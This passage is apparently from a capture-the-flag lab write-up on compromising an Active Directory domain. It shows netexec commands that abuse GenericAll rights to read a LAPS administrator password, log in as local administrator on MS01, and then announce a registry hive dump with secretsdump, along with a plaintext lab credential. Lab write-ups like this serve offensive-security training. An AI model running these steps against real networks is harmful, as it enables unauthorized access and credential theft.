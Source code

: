 We have GenericAll permissions on the abbie.smith user for the ms01 machine.
When checking the machine account quota, we noticed it's set to 0, which is bad news.


```zsh
➜  ms01 netexec ldap dc01 -u dorothy.rose -p hC_fny3OK9glSJ -M maq                          

SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\dorothy.rose:hC_fny3OK9glSJ 
MAQ         10.10.219.181   389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.219.181   389    DC01             MachineAccountQuota: 0
```

However, when we review SpecterOps' documentation, it tells us that we can read the LAPS (Local Administrator Password Solution) passwords.


According to SpecterOps' documentation on BloodHound edges:

> You may read the LAPS password of the computer object. See more information under the ReadLAPSPassword edge.
>
> You can write to the “msds-KeyCredentialLink” attribute on a computer. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the computer using Kerberos PKINIT. See more information under the AddKeyCredentialLink edge.
>
> Alternatively, Full control of a computer object can be used to perform a Resource-Based Constrained Delegation attack. See more information under the AllowedToAct edge.

Reference: [https://bloodhound.specterops.io/resources/edges/generic-all#with-genericall-over-a-computer](https://bloodhound.specterops.io/resources/edges/generic-all#with-genericall-over-a-computer)




```zsh
➜  bloodhound netexec ldap dc01 -u abbie.smith -p <REDACTED> -M laps 

SMB         10.10.219.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
LDAP        10.10.219.181   389    DC01             [+] reflection.vl\abbie.smith:<REDACTED> 
LAPS        10.10.219.181   389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.219.181   389    DC01             Computer:MS01$ User:                Password:<REDACTED>
```

We found the administrator password for ms01.

```zsh
➜  bloodhound netexec smb ms01 -u administrator -p '<REDACTED>' --local-auth
SMB         10.10.219.182   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.10.219.182   445    MS01             [+] MS01\administrator:<REDACTED> (Pwn3d!)
```


Next, let's dump the passwords by extracting the SAM, SYSTEM, and SECURITY files from the registry and use secretsdump.
